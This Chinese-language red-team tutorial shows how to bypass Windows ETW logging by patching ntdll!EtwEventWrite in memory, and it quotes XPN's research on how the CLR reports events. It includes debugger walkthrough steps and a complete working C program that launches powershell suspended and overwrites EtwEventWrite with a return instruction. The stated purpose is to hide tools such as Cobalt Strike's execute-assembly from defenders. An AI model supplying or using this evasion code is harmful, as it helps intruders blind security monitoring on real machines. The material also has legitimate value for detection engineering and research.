 # 基于内存补丁ETW的绕过

## 简介

通常在红队行动中，面临的最大挑战并不是诸如杀毒、EDR之类的防护软件，红队行动中工具&代码的杀毒绕过只是事前工作\(基本功\)，所以攻击者使用的工具&代码往往在本地就比较完备的完成了免杀工作，在这样的背景下，如何让工具尽可能少的留下痕迹就成为了红队成员首要解决的问题。

在cobaltstrike中实现了在非托管进程中加载托管代码的功能模块execute-assembly，而这个功能因为操作系统提供的API（ ICLRMetaHost[、](https://www.21ct.cc/)ICLRRuntimeInfo、ICLRRuntimeHost）在实现上并不复杂，但是这并不影响它的实用性。

## 技术原理

对于检测CLR进行的操作\(托管进程\)一种比较好的方法就是通过Windows事件跟踪（ETW\),虽然该功能最早是为了调试和监控性能引入的，但是这并不妨碍它成为监控execute-assembly等功能的行为操作。

如我们正常开启一个powershell\(属于托管进程\)，在进程加载过程中就会产生大量日志记录，我们可以通过processhacker，进行查看。

![](../.gitbook/assets/image%20%28125%29.png)

根据前人的研究结果，我们可以知道ETW是由用户空间ntdll.dll!EtwEventWrite发起的\(这里手动@xpn\)，这样我们对其绕过也能比较方便的实现。

> ### How does the CLR surface events via ETW? <a id="how-does-the-clr-surface-events-via-etw"></a>
>
> Hopefully by this point the goal is obvious, we need to stop ETW from reporting our malicious activity to defenders. To do this we first need to understand just how the CLR exposes its events via ETW.
>
> Let's take a look at `clr.dll` to try and see if we can spot the moment that an event is triggered. Loading the PDB and hunting for the `AssemblyDCStart_V1` symbol using Ghidra, we quickly land on the following method:

> ![](../.gitbook/assets/image%20%28116%29.png)

> Let's see if we can find the exact point that an event is generated reporting the Assembly load which we observed above with our ETW consumer. Dropping into WinDBG and setting a breakpoint on all `ntdll!EtwEventWrite` calls occurring after the `ModuleLoad` method above, we quickly discover the following where we can see our Assembly name of "test" is being sent:

> ![](../.gitbook/assets/image%20%28124%29.png)

> So this tells us 2 things. First, these ETW events are sent from userland, and second that these ETW events are issued from within a process that we control... And as we know, having a malicious process report that it is doing something malicious never ends well.

根据XPN大佬的研究结果，我们尝试patch ntdll!EtwEventWrite来验证结论是否正确，这里使用x64dbg和powershell来验证。

首先使用x64dbg创建一个powershell进程，这时x64dbg会在线程初始化前下一个断点。

定位到ntdll!EtwEventWrite。

![](../.gitbook/assets/image%20%28118%29.png)

一般windows api默认使用stdcall\(x86\)调用约定，这里x64默认使用fastcall，即寄存器传参，以防万一我们确认一下，堆栈的平衡方式会决定我们的内存补丁写法\(这里之前看错了，把后面那个add rsp,58以为是函数内那个call的\)。

![](../.gitbook/assets/image%20%28123%29.png)

这时我们使用一起BypassAmsi的方式在函数开头直接返回。

![](../.gitbook/assets/image%20%28119%29.png)

在processhacker中查看clr日志。

![](../.gitbook/assets/image%20%28120%29.png)

我们发现现在无法读取到任何日志。

## 代码

代码的话拿AMSI的随便改改就行。

由于ntdll在进程加载之初就已经导入，所以这里不需要短暂睡眠，直接挂起创建就行。

```text

#include <Windows.h>
#include <stdio.h>
#include <Tlhelp32.h>
int main() {
	STARTUPINFOA si = {0};
	PROCESS_INFORMATION pi = { 0 };
	si.cb = sizeof(si);

	CreateProcessA(NULL, (LPSTR)"powershell -NoExit", NULL, NULL, NULL, CREATE_SUSPENDED, NULL, NULL, &si, &pi);

	HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
	LPVOID pEtwEventWrite = GetProcAddress(hNtdll, "EtwEventWrite");

	//Sleep(500);

	DWORD oldProtect;
	char patch = 0xc3;

	VirtualProtectEx(pi.hProcess, (LPVOID)pEtwEventWrite, 1, PAGE_EXECUTE_READWRITE, &oldProtect);
	WriteProcessMemory(pi.hProcess, (LPVOID)pEtwEventWrite, &patch, sizeof(char),NULL);

	VirtualProtectEx(pi.hProcess, (LPVOID)pEtwEventWrite, 1, oldProtect, NULL); 
	ResumeThread(pi.hThread);
	CloseHandle(pi.hProcess);
	CloseHandle(pi.hThread);
	//FreeLibrary(hNtdll);
	return 0;

}
```

![](../.gitbook/assets/image%20%28117%29.png)

## LINKS

{% embed url="https://blog.xpnsec.com/hiding-your-dotnet-etw/" %}



